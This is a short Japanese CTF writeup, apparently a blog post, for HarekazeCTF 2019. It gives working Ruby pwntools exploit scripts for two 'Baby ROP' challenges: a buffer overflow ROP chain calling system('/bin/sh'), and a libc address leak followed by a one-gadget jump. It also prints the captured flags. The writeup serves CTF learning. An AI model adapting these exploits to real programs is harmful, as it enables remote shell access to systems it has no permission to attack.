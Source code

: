 ```yaml
---
title: "HarekazeCTF 2019 writeup"
date: 2019-05-19T16:54:53+09:00
draft: false
categories: 
- writeup

---
```


## Baby ROP 1

- バイナリ中で、`system` 関数使ってechoしており、Canary等もないBOFが起こるので、`pop rdi; ret` 使って`system(/bin/sh)` を呼ぶだけ
```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20001

pop_rdi_ret = p64(0x00400683)
system = p64(0x4005e3)

STDIN.gets
z.recvuntil "? "
payload = "A" * 24
payload << pop_rdi_ret
payload << p64(0x601048)
payload << system

z.sendline payload

z.interact
```
- **HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}**

## Baby ROP 2

- `system` 関数などは、存在しないが、libc が配布されているので、ROPでlibcアドレスリークして、One-Gagdet に飛ばすだけ
```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20005
#z = Sock.new "localhost", 9999
elf = ELF.new "./babyrop2"
libc = ELF.new "./libc.so.6"
#libc = ELF.new "./mylibc.so.6"

pop_rdi_ret = p64(0x00400733)
z.recvuntil "? "

payload = "A" * 40
payload << pop_rdi_ret
payload << p64(elf.got["__libc_start_main"])
payload << p64(0x4004f0)
payload << p64(elf.symbols["main"])
STDIN.gets
z.sendline payload

recvlen = "Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!\n".length
data = z.recvuntil "? "
p data
libc_base = u64(data[recvlen, 6].ljust(8, "\x00")) - libc.symbols["__libc_start_main"]
libc_magic = libc_base + 0xf02a4
puts "libc base 0x%x" % libc_base
puts "libc magic 0x%x" % libc_magic

payload = "B" * 40
payload << p64(libc_magic)
z.sendline payload

z.interact
```
- **HarekazeCTF{u53_b55_53gm3nt_t0_pu7_50m37h1ng}**

## Login

- 解けなかった、脆弱性わからず

## Harekaze Note

- Note の削除時に何も考慮してないため、Heapアドレスのリークやdouble freeができるが、そこから攻撃に繋げられず
